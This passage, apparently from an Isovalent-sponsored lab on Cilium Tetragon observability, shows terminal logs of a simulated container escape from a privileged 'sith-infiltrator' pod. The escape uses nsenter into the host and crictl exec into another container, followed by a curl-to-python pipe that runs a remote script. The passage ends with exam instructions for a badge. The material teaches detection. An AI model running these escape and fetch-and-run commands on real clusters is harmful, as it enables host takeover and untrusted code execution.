🚀 process default/sith-infiltrator /usr/local/bin/crictl exec -it 06bebbe843b31977685483f6fc897f45442486ac55bde237399499b6445c4c07 /bin/bash 🛑 CAP_SYS_ADMIN
🔌 connect default/sith-infiltrator /usr/local/bin/crictl tcp 127.0.0.1:16539 -> 127.0.0.1:44425 🛑 CAP_SYS_ADMIN


```

#### Terminal 2:

```bash
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --process curl,python
🚀 process kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 🛑 CAP_SYS_ADMIN
🚀 process kind-control-plane /usr/bin/python              🛑 CAP_SYS_ADMIN
🔌 connect kind-control-plane /usr/bin/curl tcp 10.244.0.5:40670 -> 185.199.109.133:443 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/bin/curl tcp 10.244.0.5:40670 -> 185.199.109.133:443 🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 0 🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /usr/bin/python  0  🛑 CAP_SYS_ADMIN


```

#### Terminal 3:

```bash
root@server:~# kubectl exec -it sith-infiltrator -- /bin/bash
root@kind-control-plane:/# nsenter -t 1 -a bash
root@kind-control-plane:/# CONT_ID=$(crictl ps --name hack-latest --output json | jq -r '.containers[0].id')
echo $CONT_ID
06bebbe843b31977685483f6fc897f45442486ac55bde237399499b6445c4c07
root@kind-control-plane:/# crictl exec -it $CONT_ID /bin/bash
PRETTY_NAME="Alpine Linux v3.12"
root@hack-latest-kind-control-plane:~ [0]# curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py | python
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   488  100   488    0     0   1952      0 --:--:-- --:--:-- --:--:--  1944
root@hack-latest-kind-control-plane:~ [0]# 
```


## 🏆 Final Exam Challenge
This last challenge is an exam that will allow you to win a badge.

Make sure to finish the lab in order to get your badge!




### Introduction

In this exam challenge, you will be tasked with monitoring events in the cluster and looking for special events.

1.Your first task will be to start inspecting the Security Observability events in the first Terminal, filtering on events related to the `sith-infiltrator` pod. You can use the shell history to find the command again. Note that no event will be displayed until you press the `Check` button.

2.Once this is set up, click the `Check` button. This will give you a fail message and trigger a command on the pod. Check the Tetragon logs and identify which command was executed in the pod.

3.Next, write this command (in the format `/usr/bin/XXX /etc/YYYYYY`) to the `answer.txt` file in the </> Editor tab and save the file with the 💾 button.

4.Finally, click the `Check` button again and you should be good to go!

### Isovalent

Thanks for taking part in our little challenge, and thanks for learning something about the capabilities of Cilium Tetragon.

Thanks to [Isovalent](https://isovalent.com/) who sponsored this lab, many of the developers around Cilium work there. If you want to learn more about Isovalent and Isovalent Enterprise for Cilium, join one of the [regular AMA sessions](https://calendly.com/cilium-events/cilium-introduction)!


